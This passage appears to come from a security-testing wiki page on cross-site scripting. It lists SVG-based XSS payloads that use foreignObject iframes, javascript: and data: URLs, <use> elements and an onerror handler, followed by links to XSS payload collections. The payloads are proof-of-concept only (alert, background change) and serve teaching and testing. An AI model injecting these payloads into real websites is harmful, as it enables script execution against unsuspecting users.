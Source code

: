 ```svg
<svg width="500" height="500"
  xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <circle cx="50" cy="50" r="45" fill="green"
          id="foo"/>

  <foreignObject width="500" height="500">
     <iframe xmlns="http://www.w3.org/1999/xhtml" src="data:text/html,&lt;body&gt;&lt;script&gt;document.body.style.background=&quot;red&quot;&lt;/script&gt;hi&lt;/body&gt;" width="400" height="250"/>
     <iframe xmlns="http://www.w3.org/1999/xhtml" src="javascript:document.write('hi');" width="400" height="250"/>
  </foreignObject>
</svg>
```

```html
<svg><use href="//portswigger-labs.net/use_element/upload.php#x"/></svg>
```

```xml
<svg><use href="data:image/svg+xml,&lt;svg id='x' xmlns='http://www.w3.org/2000/svg' &gt;&lt;image href='1' onerror='alert(1)' /&gt;&lt;/svg&gt;#x" />
```

Find **more SVG payloads in** [**https://github.com/allanlw/svg-cheatsheet**](https://github.com/allanlw/svg-cheatsheet)

## Misc JS Tricks & Relevant Info

{% content-ref url="other-js-tricks.md" %}
[other-js-tricks.md](other-js-tricks.md)
{% endcontent-ref %}

## XSS resources

* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20injection)
* [http://www.xss-payloads.com](http://www.xss-payloads.com) [https://github.com/Pgaijin66/XSS-Payloads/blob/master/payload.txt](https://github.com/Pgaijin66/XSS-Payloads/blob/master/payload.txt) [https://github.com/materaj/xss-list](https://github.com/materaj/xss-list)
* [https://github.com/ismailtasdelen/xss-payload-list](https://github.com/ismailtasdelen/xss-payload-list)
* [https://gist.github.com/rvrsh3ll/09a8b933291f9f98e8ec](https://gist.github.com/rvrsh3ll/09a8b933291f9f98e8ec)
* [https://netsec.expert/2020/02/01/xss-in-2020.html](https://netsec.expert/2020/02/01/xss-in-2020.html)

<figure><img src="../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

